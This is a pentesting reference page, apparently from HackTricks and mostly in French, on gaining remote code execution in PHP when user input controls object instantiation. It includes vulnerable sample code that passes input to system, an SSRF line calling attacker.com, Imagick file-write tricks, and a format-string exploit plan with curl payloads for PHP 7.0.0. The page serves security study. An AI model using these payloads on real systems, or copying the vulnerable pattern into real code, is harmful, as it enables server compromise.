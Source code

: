 # PHP - RCE abusing object creation: new $_GET["a"]($_GET["b"])

{{#include ../../../banners/hacktricks-training.md}}

This is basically a summary of [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

## Introduction

La création de nouveaux objets arbitraires, comme `new $_GET["a"]($_GET["a"])`, peut conduire à Remote Code Execution (RCE), comme détaillé dans un [**writeup**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/). Ce document met en lumière différentes stratégies pour obtenir une RCE.

## RCE via classes personnalisées ou autoloading

La syntaxe `new $a($b)` est utilisée pour instancier un objet où **`$a`** représente le nom de la classe et **`$b`** est le premier argument passé au constructeur. Ces variables peuvent provenir d'entrées utilisateur comme GET/POST, où elles peuvent être strings ou arrays, ou de JSON, où elles peuvent apparaître sous d'autres types.

Considérez l'extrait de code ci-dessous:
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

class App2 {
function App2 ($cmd) {
system($cmd);
}
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
Dans cet exemple, définir `$a` sur `App` ou `App2` et `$b` sur une commande système (par ex., `uname -a`) entraîne l'exécution de cette commande.

**Les fonctions d'autochargement** peuvent être exploitées si aucune de ces classes n'est directement accessible. Ces fonctions chargent automatiquement des classes depuis des fichiers lorsque nécessaire et sont définies en utilisant `spl_autoload_register` ou `__autoload` :
```php
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
include $class_name . '.php';
};

spl_autoload_register();
```
Le comportement de l'autoloading varie selon les versions de PHP, offrant différentes possibilités de RCE.

## RCE via classes intégrées

En l'absence de classes personnalisées ou d'autoloaders, **les classes PHP intégrées** peuvent suffire pour obtenir une RCE. Le nombre de ces classes varie entre 100 et 200, selon la version de PHP et les extensions. Elles peuvent être listées avec `get_declared_classes()`.

Les constructeurs intéressants peuvent être identifiés via l'API de reflection, comme montré dans l'exemple suivant et le lien [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF).

**RCE via des méthodes spécifiques comprend :**

### **SSRF + Phar Deserialization**

La classe `SplFileObject` permet le SSRF via son constructeur, autorisant des connexions vers n'importe quelle URL :
```php
new SplFileObject('http://attacker.com/');
```
SSRF peut conduire à des attaques de désérialisation dans les versions de PHP antérieures à 8.0 en utilisant le protocole Phar.

### **Exploiter les PDOs**

Le constructeur de la classe PDO permet des connexions aux bases de données via des chaînes DSN, pouvant potentiellement permettre la création de fichiers ou d'autres interactions :
```php
new PDO("sqlite:/tmp/test.txt")
```
### **SoapClient/SimpleXMLElement XXE**

Versions de PHP jusqu'à 5.3.22 et 5.4.12 étaient susceptibles d'attaques XXE via les constructeurs `SoapClient` et `SimpleXMLElement`, en fonction de la version de libxml2.

## RCE via Imagick Extension

Lors de l'analyse des **dépendances d'un projet**, il a été découvert que **Imagick** pouvait être exploité pour une **exécution de commandes** en instanciant de nouveaux objets. Cela présente une opportunité d'exploiter des vulnérabilités.

### VID parser

La capacité du VID parser à écrire du contenu vers n'importe quel chemin spécifié dans le système de fichiers a été identifiée. Cela pourrait conduire au placement d'un PHP shell dans un répertoire accessible depuis le web, aboutissant à une Remote Code Execution (RCE).

#### VID Parser + File Upload

Il est noté que PHP stocke temporairement les fichiers uploadés dans /tmp/phpXXXXXX. Le VID parser d'Imagick, utilisant le protocole **msl**, peut gérer les wildcards dans les chemins de fichiers, facilitant le transfert du fichier temporaire vers un emplacement choisi. Cette méthode offre une approche supplémentaire pour obtenir une écriture de fichier arbitraire dans le système de fichiers.

### PHP Crash + Brute Force

A method described in the [**original writeup**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) involves uploading files that trigger a server crash before deletion. By brute-forcing the name of the temporary file, it becomes possible for Imagick to execute arbitrary PHP code. However, this technique was found to be effective only in an outdated version of ImageMagick.

## Format-string in class-name resolution (PHP 7.0.0 Bug #71105)

Lorsqu'une entrée utilisateur contrôle le nom de classe (par ex., `new $_GET['model']()`), PHP 7.0.0 a introduit un bug transitoire lors du refactor de `Throwable` où le moteur traitait par erreur le nom de la classe comme une chaîne de format printf lors de la résolution. Cela permet les primitives classiques de style printf à l'intérieur de PHP : leaks avec `%p`, contrôle du compteur d'écriture avec des spécificateurs de largeur, et écritures arbitraires avec `%n` contre des pointeurs en processus (par exemple, les GOT entries sur les builds ELF).

Minimal repro vulnerable pattern:
```php
<?php
$model = $_GET['model'];
$object = new $model();
```
Plan d'exploitation (d'après la référence) :
- Leak des adresses via `%p` dans le nom de classe pour trouver une cible écrivable :
```bash
curl "http://host/index.php?model=%p-%p-%p"
# Fatal error includes resolved string with leaked pointers
```
- Utiliser des paramètres positionnels et des spécificateurs de largeur pour définir un nombre exact d'octets, puis `%n` pour écrire cette valeur à une adresse accessible sur la stack, en visant une entrée GOT (par ex., `free`) pour l'écraser partiellement vers `system`.
- Déclencher la fonction détournée en passant un nom de classe contenant un shell pipe pour atteindre `system("id")`.

Remarques :
- Fonctionne uniquement sur PHP 7.0.0 (Bug [#71105](https://bugs.php.net/bug.php?id=71105)) ; corrigé dans les versions suivantes. Gravité : critique si une instanciation de classe arbitraire est possible.
- Les payloads typiques enchaînent de nombreux `%p` pour parcourir la stack, puis `%.<width>d%<pos>$n` pour effectuer l'écrasement partiel.

## Références

- [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)
- [The Art of PHP: CTF‑born exploits and techniques](https://blog.orange.tw/posts/2025-08-the-art-of-php-ch/)

{{#include ../../../banners/hacktricks-training.md}}
